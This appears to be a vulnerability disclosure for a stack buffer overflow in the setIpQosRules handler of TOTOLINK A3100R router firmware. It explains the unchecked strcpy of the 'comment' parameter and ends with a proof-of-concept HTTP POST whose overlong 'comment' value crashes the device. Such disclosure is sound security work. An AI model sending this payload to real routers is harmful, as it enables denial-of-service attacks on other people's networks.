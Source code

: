 #firewall.so setIpQosRules stack buffer overflow

##A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

##Description:

The setIpQosRules function in the firewall.so module does not filter the "comment" parameter, and a stack overflow occurs when strcpy is performed

##Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

##Analyse:
The program reads a user inputed named "comment" in users's POST request and uses the input immediately,without checking it's length ,which can lead to buffer overflows bugs in the following strcpy function.
![](./img/11.png)
![](./img/6.png)
![](./img/7.png)

So by Posting proper data to topicurl:"setting/setIpQosRules",the attacker can easily perform a Deny of service Attack.

##POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 363

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/firewall/qos.asp?timestamp=1649994888415

Cookie: SESSION_ID=2:1588588113:2



{"topicurl":"setting/setIpQosRules","ipStart":"192.168.0.22","ipEnd":"192.168.0.22","upBandwidth":"2222","dwBandwidth":"2222","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb"}
```
![](./img/9.png)
![](./img/8.png)



